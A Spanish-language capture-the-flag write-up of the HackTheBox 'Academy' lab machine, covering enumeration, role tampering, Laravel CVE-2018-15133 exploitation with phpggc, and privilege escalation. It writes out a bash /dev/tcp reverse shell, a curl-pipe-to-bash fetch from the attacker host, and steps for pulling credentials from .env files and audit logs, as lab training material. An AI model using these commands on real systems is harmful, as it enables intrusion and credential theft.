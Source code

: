 ```yaml
---
title: HackTheBox - Academy
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, Laravel]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Academy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Academy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.
Técnicas usadas: **Laravel Exploitation, Information Leakage**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Academy`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Academy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p21,80,33060 -sCV <IP> -oN versiones`**

    ```
    <SNIP>
    http-title: Did not follow redirect to http://academy.htb/
    <SNIP>
    ```

    > Tenemos un dominio, el cual debemos guardar en el archivo **`/etc/hosts`** para indicar que la **IP de la Máquina Academy** resuelva a **`http://academy.htb/`**.
    {: .prompt-info }


c. Si vistamos el servicio web, podemos **`Registrarnos`** o **`Loguearnos`**, por lo que enumeraremos por más archivos **`.php`** que puedan existir

```bash
wfuzz -c -t 10 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://academy.htb/FUZZ.php

<SNIP>
000000256:   200        141 L    227 W      2633 Ch     "admin"
```

d. Si capturamos la petición de **registrar** con Burp Suite veremos que se envía un **`roleid`** con valor de **0** por default

* **`uid=test&password=test&confirm=test&roleid=0`**

    * Lo que haremos es cambiarlo **`1,2,3,etc`** para ver si la cuenta registrada cambia de privilegios o es válida en **`/admin.php`** 

    * El **`roleid`** válido es `1`

e. Nos autenticamos en **/admin.php** y veremos un subdominio, también lo agregamos al **`/etc/hosts`**

![](/assets/images/HTB/Easy/Academy/02-subdomain.png)


f. Si visitamos el nuevo subdominio, veremos un error de Laravel, del cual podemos extraer la **`APP_KEY`** (Variable de configuración utilizada para mantener segura la información sensible, como las sesiones, las cookies y otras características de seguridad)

1. [CVE-2018-15133](https://github.com/kozmic/laravel-poc-CVE-2018-15133) y [phpgcc](https://github.com/ambionics/phpggc)

2. El escenario será el siguiente: 
    * Crearemos con **phpgcc** un comando encodeado que realice una petición a un archivo **index.html** que estará hosteado en nuestra **Máquina Atacante** 

        ```bash
        #!/bin/bash
        bash -i >& /dev/tcp/<tun0 IP>/443 0>&1
        ```

        * Nos pondremos en escucha para servir el archivo: **`python3 -m http.server 8000`**

    * Estaremos a la espera de una reverse shell: **`nc -lvnp 443`**


    > El comando encodeado será **`curl -s -X GET http://<tun0 ip>:8000/index.html | bash`**. Con este comando obtenemos el fichero **index.html** y lo interpretaremos con bash
    {: .prompt-info }

    ```bash
    ./phpggc Laravel/RCE1 system 'curl -s -X GET http://10.10.14.115:8000/index.html | bash' -b
    ```

    * Ejecutamos el exploit

        ```bash
        ./cve-2018-15133.php <APP_KEY> <OUTPUT phpgcc>
        ```

    * El **output** del exploit lo tramitamos como cabecera en un petición por **post** a **`http://dev-staging-01.academy.htb/`**

        ```bash
        curl -s -X POST http://dev-staging-01.academy.htb/ -H "X-XSRF-TOKEN: eyJpdiI6ImFWSWpQRDZ<SNIP>="
        ```

    * Conseguiremos la reverse shell 

        ```bash
        www-data@academy:/var/www/html/htb-academy-dev-01/public$
        ```

### Escalada de Privilegios 💹

a. Listamos los archivos **.env** (Aquí se almacenan credenciales de bases de datos u otra aplicación).

```bash
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
    
b. Existen varios usuarios en el sistema, así que intentaremos autenticarnos con la credencial **`mySup3rP4s5w0rd!!`**

```bash
su cry0l1t3
Password: mySup3rP4s5w0rd!!
script /dev/null -c bash
Script started, file is /dev/null
cry0l1t3@academy:/var/www/html$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

> Grupo **`adm`:** Podemos ver archivos de **`logs`**.
{: .prompt-info }


c. Podemos listar el contenido de **`/var/log/audit`** (Aquí se almacenan logs de inicio de sesión de usuarios, cambios de permisos, etc)

* En este directorio filtraremos por líneas que contengan los nombres de los usuarios del sistema

    ```bash
    cry0l1t3@academy:/var/log/audit$ grep -r -i "mrb3n" *
    ```

d. Analizaremos en todos los archivos **`audit.log`** algo relacionado con:

* **`type=TTY`**: Relacionado con una terminal de tipo "TTY".

* **`tty pid=<N> uid=<N> auid=<N> ses=<N>`**: Estos campos registran información sobre el proceso (pid), el ID de usuario (uid), el ID de usuario auditado (auid) y la sesión (ses) asociada con el evento. 

* **`comm="[Comando]"`**: Este campo muestra el nombre del comando o programa que se estaba ejecutando cuando se registró el evento.

* **`data=[Data Hexadecimal]`**: Esta es la parte más interesante del registro y es específica del evento en sí.

    📇 En ocasiones tenemos que ejecutar dos veces seguidas este comando.

    ```bash
    grep -r "mrb3n" -C 10 | grep -i "tty" | grep "data" | awk '{print $11}' | tr -d "data=" | xxd -ps -r

    <SNIP>
    mrb3n_Ac@d3my!
    <SNIP>
    ```

e. Pasamos al usuario **`mrb3n`** con la credencial reciente y listamos nuestros privilegios a nivel de **sudoers**

```bash
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

f. Vamos a [GTFObins](https://gtfobins.github.io/) y buscamos una forma de escalar privilegios con este permiso asignado.

* Por último, ya como **`root`** leemos las **`flags`**

    ```bash
    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name user.txt 2>/dev/null  | xargs cat
    b4fb4ebd4e45397059048b75d2572658

    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name root.txt 2>/dev/null  | xargs cat
    b031b75fe05537f90812f247d5de1177
    ```

> Después de todo este proceso, hemos finalmente vulnerado la `Máquina Academy` 🎉
{: .prompt-tip }